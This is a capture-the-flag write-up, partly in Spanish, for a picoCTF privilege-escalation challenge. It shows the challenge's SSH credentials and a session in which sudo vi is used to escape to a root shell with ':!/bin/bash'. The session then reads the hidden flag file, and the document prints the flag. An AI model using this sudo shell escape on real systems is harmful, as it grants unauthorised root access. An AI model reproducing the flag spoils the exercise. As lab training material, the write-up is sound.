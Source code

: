 Can you read files in the root file? The system admin has provisioned an account for you on the main server: `ssh -p 65407 picoplayer@saturn.picoctf.net` Password: `UYiOazkqY2` Can you login and read the root file?

Hints
- What permissions do you have?
# Solucion
Se conecta a la cuenta indicada en la descripcion, se crea un archivo como administrador usando sudo vi y al salir del archivo se pone el comando esc + :!/bin/bash
Ahora estamos en la cuenta raiz, asi que ahora nos movemos al directorio raiz y vemos los archivos, finalmente se lee el archivo .txt usando cat y ahi aparece la bandera
```
diegojfh1000-picoctf@webshell:~$ ssh -p 65407 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:65407 ([13.59.203.175]:65407)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:65407' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
picoplayer@challenge:~$ sudo vi test
[sudo] password for picoplayer: 

[No write since last change]
root@challenge:/home/picoplayer# cd /root/
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 19 22:37 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}
```
picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}